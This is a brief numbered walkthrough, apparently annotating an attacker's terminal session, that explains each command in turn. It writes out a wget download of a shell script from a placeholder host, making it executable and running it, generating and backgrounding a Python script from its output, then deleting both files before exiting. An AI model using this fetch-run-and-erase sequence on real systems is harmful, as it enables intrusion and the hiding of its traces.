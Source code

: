 0
The attacker uses `wget` to **download a shell script** from `http://example.com` saving it as `/usr/bin/example.sh`

1
The attacker then **changes directories** to `/usr/bin` and makes the script **executable** with `chmod +x example.sh`

2
The attacker then executes the script with `./example.sh` and **appends the output of the shell script to a new python file named `example_output.py`**

3
The attacker then **executes the generated python script** `example_output.py` through the `exec` command or in the background`python3 example_output.py &`

4
The attacker then **lists all processes** and **filters the output** for `example_output.py` with `ps -ajfx | grep example_output.py`

5-6
The attacker then **removes the shell script** `example.sh` and the python script `example_output.py` with `rm example.sh` and `rm example_output.py`

7
Finally, the attacker **exits the terminal** with `exit`

